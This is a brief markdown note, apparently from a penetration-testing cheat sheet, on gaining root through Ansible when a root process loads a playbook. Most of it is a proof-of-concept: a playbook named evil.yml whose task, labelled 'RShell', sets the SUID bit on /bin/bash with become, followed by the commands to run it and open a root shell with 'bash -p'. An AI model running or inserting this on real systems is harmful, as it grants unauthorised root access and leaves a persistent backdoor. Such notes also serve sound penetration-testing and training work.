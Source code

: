 # Ansible
>If an ansible file is loaded by a root process : Privilege Escalation

## PoC
```bash
# Create a .yml file just like the other one
nano evil.yml
# Content :
- hosts: localhost
  tasks:
    - name: RShell
      command: chmod u+s /bin/bash
      become: true

# save
ls -lah /bin/bash
ansible-playbook evil.yml
bash -p
# root
```
